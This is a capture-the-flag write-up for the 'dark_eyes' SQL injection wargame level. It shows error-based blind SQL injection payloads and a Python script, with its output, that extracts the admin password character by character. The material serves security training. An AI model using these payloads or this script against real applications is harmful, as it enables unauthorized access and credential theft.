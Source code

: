 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 22
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/cbd65f64-4c89-44f4-b041-b362993f22dd)

We are provided with the SQL query:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='{$_GET[pw]}'
```

## Filter:

This challenge filters out the following:
- `col`
- `if`
- `case`
- `when`
- `sleep`
- `benchmark`


This level also exits when an error is invoked instead of revealing the error message.

## Error-based Blind SQL Injection

### ERROR: Subquery returned more than 1 value error

In SQL the subquery can only return one value.

```sql
## Valid:
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1) -- -'

## Invalid:
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2) -- -'
```

This is the error that we will be exploiting.

### Revealing the password length

If we provide the following URI parameter:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=1) -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=1) -- -'
```

The above SQL query includes the subquery `(SELECT 1 UNION SELECT 2 where id='admin' and length(pw)=1)` which returns two values if the `length(pw)=1` for `id='admin'`. This would invoke an error and cause the challenge to exit.

![2](https://github.com/Kunull/Write-ups/assets/110326359/29f2c0b3-d400-4043-8ce0-5a0c461edf1d)

Since the challenge did not exit, it means that the subquery only returned one value `SELECT 1`. This tells us that the length of the `pw` for `id='admin'` is more than 1.

If we keep increasing the length and provide the following URI parameter:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=8) -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=8) -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/fc84a7c5-6e2b-48c9-98e0-3c568896f8ed)

The subquery returned two values `SELECT 1 UNION SELECT 2` because the length of `pw` for `id='admin'` is 8. This caused an error, causing the challenge to exit.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

If we provide the following URI parameter:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='0') -- -
```

The resultant query will be:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='0') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/9b457365-e10b-441b-8118-a7b79af680c8)

Since the challenge did not exit, it means that the subquery only returned one value `SELECT 1`. This tells us that the first character of the `pw` for `id='admin'` is not `0`.

We can try other characters moving up to the following:

```
?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='5') -- -
```

The resultant query will be:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='5') -- -'
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/e62cdc7f-f0c7-4e9e-9177-e345970208a6)

The subquery returned two values `SELECT 1 UNION SELECT 2` because the first character of `pw` for `id='admin'` is ``5`. This caused an error, causing the challenge to exit.

We can keep repeating this process until we get all the eight characters of the `admin` password:

```
5a2f5d3c
```

### Script

```python title="dark_eyes_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'rvrb7p6vumnf7hu5ukb8f70gj8'}
url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php"
password_length = 0

for x in range(0, 100):
  payload = f"' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)={x}) -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "prob_dark_eyes" not in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, {index}, 1)='{char}') -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "prob_dark_eyes" not in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$python .\dark_eyes_script.py

[!] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND length(pw)=8) -- -
[!] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+length%28pw%29%3D8%29+--+-
[!] Password length: 8

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 1, 1)='5') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+1%2C+1%29%3D%275%27%29+--+-
[+] Character at index 1: 5

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 2, 1)='a') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+2%2C+1%29%3D%27a%27%29+--+-
[+] Character at index 2: a

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 3, 1)='2') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+3%2C+1%29%3D%272%27%29+--+-
[+] Character at index 3: 2

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 4, 1)='f') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+4%2C+1%29%3D%27f%27%29+--+-
[+] Character at index 4: f

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 5, 1)='5') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+5%2C+1%29%3D%275%27%29+--+-
[+] Character at index 5: 5

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 6, 1)='d') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+6%2C+1%29%3D%27d%27%29+--+-
[+] Character at index 6: d

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 7, 1)='3') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+7%2C+1%29%3D%273%27%29+--+-
[+] Character at index 7: 3

[+] Payload: ?pw=' OR (SELECT 1 UNION SELECT 2 WHERE id='admin' AND substr(pw, 8, 1)='c') -- -
[+] Payload (URL encoded): ?pw=%27+OR+%28SELECT+1+UNION+SELECT+2+WHERE+id%3D%27admin%27+AND+substr%28pw%2C+8%2C+1%29%3D%27c%27%29+--+-
[+] Character at index 8: c

[!] Extracted password: 5a2f5d3c
[!] Final payload: ?pw=5a2f5d3c
```


If we provide the following URI parameter:

```
?pw=5a2f5d3c
```

The resultant query becomes:

```sql
SELECT id FROM prob_dark_eyes WHERE id='admin' AND pw='5a2f5d3c'
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/e6a9c9b4-8d34-4c6a-9bf4-3a9538a4cb5d)
